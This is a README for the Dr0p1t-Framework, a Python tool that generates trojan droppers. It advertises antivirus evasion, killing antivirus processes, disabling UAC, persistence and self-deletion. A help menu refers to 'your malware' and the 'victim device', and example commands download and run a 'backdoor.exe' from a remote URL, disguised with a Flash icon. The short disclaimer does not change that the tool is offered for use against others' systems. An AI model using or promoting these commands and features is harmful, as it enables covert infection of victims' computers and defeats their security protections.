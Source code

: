 # Dr0p1t-Framework ![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/) [![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg)](http://www.python.org/download/) ![Build Status](https://img.shields.io/badge/Version-1.1.1-red.svg)
###### *** Version 1.2 , see CHANGELOG.md file ***

Have you ever heard about trojan droppers ?
In short dropper is type of trojans that downloads other malwares and Dr0p1t gives you the chance to create a dropper that bypass most AVs and have some tricks ;)

# Features
- Framework works with Windows and Linux
- Download executable on target system and execute it silently..
- The executable size small compared to other droppers generated the same way
- Self destruct function so that the dropper will kill and delete itself after finishing it work
- Adding executable after downloading it to startup
- Adding executable after downloading it to task scheduler ( UAC not matters )
- Finding and killing the antivirus before running the malware
- Running a custom ( batch|powershell|vbs ) file you have chosen before running the executable
- The ability to disable UAC
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

# Screenshots ( Not updated )
## On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
## On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

### Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  --nouac      Disable UAC on victim device
  --nocompile  Tell the framework to not compile the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
### Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --nouac -i flash.ico
```
# Prerequisites
- Python 2 or Python 3.

>The recommended version for Python 2 is 2.7.x , the recommended version for Python 3 is 3.5.x and don't use 3.6 because it's not supported yet by PyInstaller

- Python libraries requirements in requirements.txt

### Needed dependencies for linux
- Wine
- Python 2.7 on Wine Machine

>Note : You must have root access

# Installation
if you are on linux and do
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
chmod 777 -R Dr0p1t-Framework
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:

### Tested on:

- Kali Linux - SANA
- Ubuntu 14.04-16.04 LTS
- Windows 10/8.1/8

## Todo [Check out this link](https://github.com/D4Vinci/Dr0p1t-Framework/projects/1)

## Contact
- [Twitter](https://twitter.com/D4Vinci1)
- [Facebook](https://www.facebook.com/kareem.shoair)

## Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes. Use it only for work or educational purpose !!!

Copying a code from this framework or using it in another tool is accepted as you mention where you get it from :smile:

> Pull requests are always welcomed :D

# Much more features to come, stay tuned !!
